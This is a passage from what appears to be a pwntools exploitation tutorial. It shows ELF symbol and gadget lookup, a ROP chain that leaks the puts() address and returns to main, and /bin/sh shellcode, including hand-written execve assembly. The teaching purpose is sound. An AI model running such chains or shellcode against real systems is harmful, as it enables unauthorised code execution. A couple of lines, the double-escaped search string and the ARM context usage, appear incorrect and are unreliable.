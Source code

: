 
### **5. Building Your Payload: ELF, ROP, and Shellcode**

Pwntools really shines when you move beyond simple overflows. Its `ELF` and `ROP` classes automate the boring parts of complex exploitation.

#### **ELF Analysis**

```python
elf = ELF('./vulnerable_binary') # Load the binary for analysis

# No more searching for addresses in GDB!
main_addr = elf.symbols['main']     # Address of main()
puts_plt = elf.plt['puts']          # Address of puts() in the PLT
puts_got = elf.got['puts']          # Address of puts()'s GOT entry

# The magic of searching for strings and gadgets
bin_sh_addr = next(elf.search(b'/bin/sh\\x00')) # Find the string "/bin/sh"
pop_rdi_ret = next(elf.search(asm('pop rdi; ret'))) # Find a ROP gadget
```

#### **ROP Chain Construction**

```python
# Automating ROP is pwntools' killer feature
rop = ROP(elf) # Create a ROP object based on the loaded ELF

# Build a chain to leak a puts() address and return to main()
rop.call(puts_plt, [puts_got]) # puts(puts_got)
rop.call(main_addr)            # return to main() after the leak

payload = flat({                # flat() is a smarter way to build payloads
    offset: rop.chain()        # It handles padding and packing automatically
})

print(rop.dump()) # Pretty-print your ROP chain for debugging
```

#### **Shellcode Generation**

```python
# Generate shellcode
shellcode = asm(shellcraft.sh())  # pwntools writes /bin/sh shellcode for you
# Defaults to context.arch

# Custom shellcode
shellcode = asm('''
    mov eax, 0x3b
    mov rdi, 0x68732f6e69622f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
''')

# Shellcode for different architectures
with context.arch('arm'):
    arm_shellcode = asm(shellcraft.arm.linux.sh())
```
